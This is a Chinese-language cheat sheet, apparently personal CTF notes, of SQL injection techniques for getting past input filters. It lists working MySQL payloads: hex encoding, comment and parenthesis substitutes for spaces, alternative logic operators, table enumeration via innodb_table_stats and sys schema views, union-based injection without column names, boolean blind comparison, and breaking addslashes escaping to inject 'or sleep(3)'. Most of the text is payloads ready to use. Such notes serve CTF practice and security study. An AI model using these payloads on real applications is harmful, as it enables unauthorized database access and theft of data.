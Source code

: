 ## **编码绕过**
is_numeric($_GET[‘id’]) ，过滤只允许数字，16进制编码sql注入。

^
## **空格被过滤**
空格过滤可以利用/**/代替空格。
利用括号，括号住变量。
```
所有库
select(group_concat(schema_name))from(information_schema.schemata)
库所有表
select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())
```

^
## **注释符被过滤**
将后面的单引号闭合即可。

^
## **or 被过滤导致orderby、information_schema都不能用**
用其他逻辑运算符and ， && ， &， |  ,1^1^
查表名使用 
```
select group_concat(table_name）from mysql.innodb_table_stats where database_name=database()
```
如果information_schema被禁止，通过sys.schema获取当前数据库表名
```
1&&ascii(substr((select group_concat(table_name)from sys.x$schema_flattened_keys where table_schema=database()),1,1))=103
2||ascii(substr((select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()),{},1))={}.format()
```

^
## **无字段名注入**
<https://www.cnblogs.com/hello-there/p/12918265.html>
知道表名
```
表的字段数判断：select 1,2 union select * from user  试出字段数。

再直接查出值，无需知道字段名，查出原表第2的字段的所有记录值
select 1,2 union select * from user;

select `2` from  (select 1,2 union select * from user) as u

整合
select group_concat(`2`) from  (select 1,2 union select * from user) as u 


1. 列名需要用`\`包裹起来，字段名为数字，则`2`

2. 使用子查询的时候,即一个查询嵌套在另一个查询中,内层查询的结果可以作为外层查询的条件,内层查询到的结果需要起一个别名(as)
```

## **布尔中知道表名，不知字段名注入，布尔加无列名注入**
```
表中如果有多个记录值：要条件查询成一条，一般都是一条。where flag like "f%"

表的字段数判断：select 1,2 union select * from user  试出字段数。

一个字段一条记录
select((select "{}")>(select * from f1ag_1s_h3r3_hhhhh))
两个字段一条记录，获取字段
select((select 1,"{}")>(select * from f1ag_1s_h3r3_hhhhh))

select((select 1,"fla")>(select * from f1ag_1s_h3r3_hhhhh))
通过flb>flag{xxx} 比较结果1或0即可
当为1时的回显，值-1就是正确字符
```

^
## **函数等效替换**
报错函数被过滤，寻找顶替。



^
## **存在转义函数**
```
addslashes($id);
将字符串里面的' " \等转义。
'将变成\'


如果此时下面存在，特殊字符去除 \0 %00 \' '
$id=str_replace(array("\\0","%00","\\'","'"),"",$id);

那么传入\0 先变成\\0 再变成\
如果是sql语句\就会转义后面字符。
select * from images where id='{$id}' or path='{$path}'

select * from images where id='\' or path='   {$path}'
这里'\' or path = ' 成了一个单独字符串
$path就可以随意注入
or sleep(3)--+
```


^
## **where后= like被过滤，用字段名使用正则模糊匹配字段的值**
需要知道字段名
```
select(real_flag_1s_here)from(users)where(real_flag_1s_here)regexp('^f')

select flag from Flag where flag regexp "^f";

flag like "f%"
```